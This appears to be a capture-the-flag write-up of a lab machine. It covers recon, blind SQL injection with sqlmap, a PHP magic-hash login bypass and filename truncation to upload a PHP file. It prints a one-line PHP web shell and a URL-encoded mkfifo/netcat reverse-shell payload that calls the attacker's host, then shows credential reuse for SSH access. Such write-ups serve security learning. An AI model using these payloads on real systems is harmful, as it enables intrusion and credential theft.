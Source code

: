 **Initial Recon**

Nmap

![image](https://user-images.githubusercontent.com/88967140/178944865-a3ef8183-1cd8-4fed-ae77-66f69aceacd8.png)

Web Directory Enumeration (Gobuster)
![image](https://user-images.githubusercontent.com/88967140/178944919-596a497a-5a90-444c-9b73-c7029cb28908.png)
![image](https://user-images.githubusercontent.com/88967140/178944927-a6a217c7-5192-4961-bd8d-f18cba0dd4a2.png)

* cyberlaw.txt looked like an interesting text page, which disclosed a user named `chris`.
* ![image](https://user-images.githubusercontent.com/88967140/178945084-83ed301e-ba19-4c43-ada6-9f99fe908af5.png)
</br>
</br>

**Initial Foothold**

SQL Injection

Since there wasn't anything else other than the login form, I captured the login POST via Burp and used it in `sqlmap`.
![image](https://user-images.githubusercontent.com/88967140/178946925-b0d2ebe8-d070-4991-92ed-030cef796d44.png)
![image](https://user-images.githubusercontent.com/88967140/178946947-2a01e5a4-efca-491f-b15f-a59adc17788d.png)

Sending different usernames in the login form returned different results - 
![image](https://user-images.githubusercontent.com/88967140/178949194-20b06a3f-c7de-47b4-91ab-7ad42d387bf1.png)
![image](https://user-images.githubusercontent.com/88967140/178949227-3d73042b-ec92-49e0-9b8a-2ce02c366be2.png)
![image](https://user-images.githubusercontent.com/88967140/178949211-e65cf870-43d0-4f3a-a36a-a08d21bc77ab.png)

Notice how entering `admin` as the username would show `Wrong identification` in the response, but using `test` would show `Try again..`.

By this it can be deduced that this login form is vulnerable to a boolean-based blind injection (the username= parameter).

So basically, "Wrong identification" = TRUE, "Try again.." = FALSE.

SQLMap
![image](https://user-images.githubusercontent.com/88967140/178950269-cb0b93b3-6c02-4b91-b68f-905466743b9f.png)

Effectively we can use `Wrong identification` to see if we're on the right track. All we're doing here is dumping credentials from `falafel` database.

![image](https://user-images.githubusercontent.com/88967140/178951074-60df6e3e-7bd2-4218-bab1-63295b690501.png)

PHP Type Juggling

Notice how the password for admin is hashed - it begins with 0e. We can try using magic tables to bypass the authentication and get into the account since 0 to exponent of 462 is still 0. Right here we'll be abusing PHP's Loose comparison weakness.

* Magic Hashes

For this we'll be using MD5 “Magic Number" (from https://www.whitehatsec.com/blog/magic-hashes/) 240610708 as the md5 hash for this string would also start with 0e. As a result this magic hash would collide with other hashes as both are treated as 0 and therefore would compare to be **true**

I successfully logged in by using `240610708` as the password for `admin`.

![image](https://user-images.githubusercontent.com/88967140/178952959-d8c94975-1d82-4e92-9496-8e8686a450d5.png)
![image](https://user-images.githubusercontent.com/88967140/178952977-b66d8f8c-c6f0-405b-a8bd-51cdfb9ff58d.png)

At the start I tried to upload a .php file to see if we can get an easy PHPreverse shell.
![image](https://user-images.githubusercontent.com/88967140/178953133-25763a14-7af2-4356-96e9-3f48070d1dde.png)
From this image we can clearly see .php files won't work.
</br>
</br>

**File Name Truncation**

What I did was create a file with 251 characters using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251`, add .png at the end of the file and upload it. 

![image](https://user-images.githubusercontent.com/88967140/178954298-a5a63f19-d81b-425c-8482-bba311b7e6a6.png)

Interestingly enough the output mentioned the file name being too long and shortening it, which turned out to be from 255 characters to 236.
![image](https://user-images.githubusercontent.com/88967140/178954663-adad24d9-8614-4fe3-96a5-111256cfe655.png)
</br>
</br>

**PHP REVERSE SHELL**

So now my idea was to make it so that the .png part gets cut off by the upload system and we're left off with <file>.php from which we can execute PHP code.
I used `vi` to insert this arbitrary PHP execution code in the file we're going to upload next:
 
 `<?php echo system($_REQUEST['leo']) ?>`
and set up `nc -lvnp 443` on our other terminal.
 
So now we send a request with `leo=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.3+443+>/tmp/f` to `http://10.10.10.73/uploads/<folder from CMD output>/<file name>.php` as the payload.
* Important to URL encode it - otherwise the payload won't work.

 And finally I got the shell.
 ![image](https://user-images.githubusercontent.com/88967140/178956561-cdabbc78-1a05-4a42-8880-6d899fa95fa5.png)
 </br>
 </br>
 
 **Privilege Escalation**
 **www-data -> moshe (Password reuse)**

 Web directory enumeration showed this interesting .php file `connection.php`, which, as it turns out, included credentials for `moshe` user.
 ![image](https://user-images.githubusercontent.com/88967140/178957004-fd97e9a1-62c9-46d6-bb75-482d5e5dcf0d.png)
 
 Reusing those credentials, I was able to SSH in as `moshe` and read user.txt.
 ![image](https://user-images.githubusercontent.com/88967140/178957521-383fa639-74d0-4138-9f0c-169c2dfe3b37.png)

 
